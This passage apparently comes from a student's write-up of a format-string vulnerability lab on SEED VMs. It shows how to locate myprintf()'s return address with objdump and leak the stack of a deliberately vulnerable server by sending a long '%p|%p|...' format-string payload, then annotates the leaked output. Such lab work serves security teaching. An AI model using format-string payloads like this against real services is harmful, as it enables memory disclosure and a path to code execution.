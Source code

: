 **Then you will find what you input in client will be output in server VM.**

## Task 2: Understanding the Layout of the Stack

![](images/Format-String/Screenshot%20from%202019-11-15%2021-10-21.png)

Observe the assembly code of `server` to find the return address of `myprintf()`.

```shell
$ objdump -d server>server.out
```



![](images/Format-String/Screenshot%20from%202019-11-15%2008-13-44.png)

This is assembly part of main, we can find the return address of `myprintf()` is `0x0804872d`.

Then we need to find **where the return address is stored in stack**.

We can use `%p` to print the stack, or we can use `%.8x` instead.

When inputing `%p` in client VM, it shows `0xbf9dfa10`, and when using `%.8x` it shows `bf9dfa10`. Both make sense.

So we use:

```shell
$%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

Then we got:

```shell
[11/21/19]seed@VM:~/.../formatString$ sudo ./server 
The address of the secret: 0x080487c0
The address of the 'target' variable: 0x0804a040
The value of the 'target' variable (before): 0x11223344
The address of the 'msg' argument: 0xbffff0a0
0xbffff0a0|0xb7fba000|0x804871b|0x3|0xbffff0e0|0xbffff6c8|0x804872d|0xbffff0e0|0xbffff0b8|0x10|0x804864c|0xb7e1b2cd|0xb7fdb629|0x10|0x3|0x82230002|(nil)|(nil)|(nil)|0x940002|0x1|0xb7fff000|0xb7fff020|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|
```

We can find that:

```mark
(stack top)
|format str|
|0xbffff0a0| the address of msg
|0xb7fba000|
...
|0x0804872d| the return address of myprintf
|0xbffff0e0| the value of msg
...
(stack base)
```
